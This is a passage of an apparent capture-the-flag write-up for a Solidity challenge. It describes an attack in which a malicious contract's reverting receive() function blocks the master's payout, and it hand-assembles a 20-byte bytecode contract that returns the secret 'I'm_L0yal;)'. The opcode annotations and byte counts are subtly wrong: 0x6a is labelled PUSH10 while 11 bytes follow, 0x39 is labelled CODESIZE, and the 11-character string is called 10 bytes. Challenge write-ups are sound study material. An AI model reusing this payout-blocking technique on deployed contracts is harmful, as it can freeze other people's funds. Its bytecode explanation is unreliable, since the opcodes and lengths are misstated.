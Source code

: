 3. **Attack Flow**:
1. Deploy our malicious contract that:
   - Has a gas-consuming `receive()` function
   - Returns the correct secret
2. Set our contract as the servant
3. Call `withdraw()` which will:
   - Send funds to our contract
   - Our `receive()` function will revert
   - Master's transfer never happens
4. Verify the secret with `SecretChecker`


### Writing the Required Smart Contract in Bytecode

Let's understand how we craft the minimal contract that satisfies all requirements:

1. **Understanding Requirements**:
```solidity
// From SecretChecker.sol
require(length <= 20, "HaHa! try again xD");  // Contract must be ≤ 20 bytes
bytes32 secret = bytes32(abi.encodePacked("I'm_L0yal;)")) >> (24 * 7);  // Required secret
```

2. **Breaking Down the Secret**:
```solidity
// Original string: "I'm_L0yal;)"
// Length: 10 bytes
// After right shift by 24*7 bits:
// 0x00000000000000000000000000000000000000000049276d5f4c3079616c3b29
```

3. **Writing the Contract in Bytecode**:

First, let's write the initialization code:
```
60 14       // PUSH1 0x14 (20 bytes)
60 0c       // PUSH1 0x0c (12 bytes)
60 00       // PUSH1 0x00
39          // CODESIZE
60 14       // PUSH1 0x14
60 00       // PUSH1 0x00
f3          // RETURN
```
This ensures our contract is exactly 20 bytes.

Now, let's write the runtime code:
```
6a          // PUSH10 (push 10 bytes)
49 27 6d 5f 4c 30 79 61 6c 3b 29  // "I'm_L0yal;)" (the secret)
60 00       // PUSH1 0x00 (memory offset)
52          // MSTORE (store in memory)
60 20       // PUSH1 0x20 (32 bytes)
60 00       // PUSH1 0x00 (memory offset)
f3          // RETURN (return the secret)
```

